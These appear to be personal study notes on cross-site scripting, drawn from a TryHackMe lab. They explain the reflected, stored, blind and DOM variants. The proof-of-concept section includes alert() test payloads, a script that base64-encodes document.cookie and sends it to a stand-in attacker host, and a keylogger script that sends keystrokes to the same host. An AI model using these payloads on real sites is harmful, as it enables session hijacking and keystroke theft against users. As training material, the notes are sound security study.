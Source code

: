 ![](Pasted%20image%2020241112155322.png)

# Introduction

In XSS attacker injects malicious JavaScript code in a vulnerable web server. There are two types of XSS.

- Reflected XSS
- Stored XSS

## Reflected  XSS

In this scenario, attacker sends the payload to via URL and response is reflected back. 

![](Pasted%20image%2020241112181518.png)

## Stored XSS

In this payload is stored in the database and website uses it every from user load the page from the data making the attack persistent.

![](Pasted%20image%2020241114200253.png)

## Blind XSS

In this attack, attacker cannot see the payload working on the website.

## DOM XSS

Look for variables that can be exploited in the JS code from the URL

![](Pasted%20image%2020241114204112.png)

This code take num variable from URL and appending to img tag this can be exploited by changing the URL to below

![](Pasted%20image%2020241114205055.png)
 
![](Pasted%20image%2020241114205018.png)

# POC

## General usage

After putting JavaScript code to web page's input field if the page reacts as per the code then the web page is vulnerable to XSS

```
<script>alert('XSS');</script>
```

```
<img src="123" onerror="alert('test')" />
```

## Session stealing

Most users details are stored in the form of cookies. This can be accessed by document.cookie. btoa function convert parameter to base64 and fetch function generating request to attackers webserver, giving access to users cookies when they visit infected page.

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## Key Logger:

Below is similar version of JS code that sends base64 to attacker of the key - on key press.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```


# References

- https://tryhackme.com/r/room/xss
- https://www.youtube.com/watch?v=EubBgig6qYs